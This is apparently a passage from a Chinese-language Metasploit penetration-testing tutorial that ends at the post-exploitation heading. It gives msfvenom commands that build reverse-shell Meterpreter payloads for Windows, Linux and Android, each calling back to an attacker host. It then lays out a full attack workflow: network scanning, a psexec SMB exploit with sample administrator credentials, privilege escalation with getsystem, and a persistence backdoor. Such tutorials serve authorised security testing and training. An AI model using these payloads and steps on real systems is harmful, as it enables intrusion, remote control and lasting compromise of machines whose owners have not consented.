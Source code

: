 ### 载荷生成
```bash
# 生成Windows可执行载荷
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f exe > payload.exe

# 生成Linux载荷
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f elf > payload.elf

# 生成Android APK
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 R > payload.apk
```

## 渗透测试工作流程

### 1. 目标识别
```bash
db_nmap -sV 192.168.1.0/24
services
```

### 2. 漏洞分析
```bash
# 搜索可用漏洞
search type:exploit platform:windows
search cve:2023-1234
```

### 3. 攻击执行
```bash
use exploit/windows/smb/psexec
set RHOSTS 192.168.1.100
set SMBUser administrator
set SMBPass Password123
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.1.10
exploit
```

### 4. 权限提升
```bash
# Meterpreter中执行
getsystem
```

### 5. 维持访问
```bash
run persistence -X -i 30 -p 4444 -r 192.168.1.10
```

## 后渗透阶段（Meterpreter）
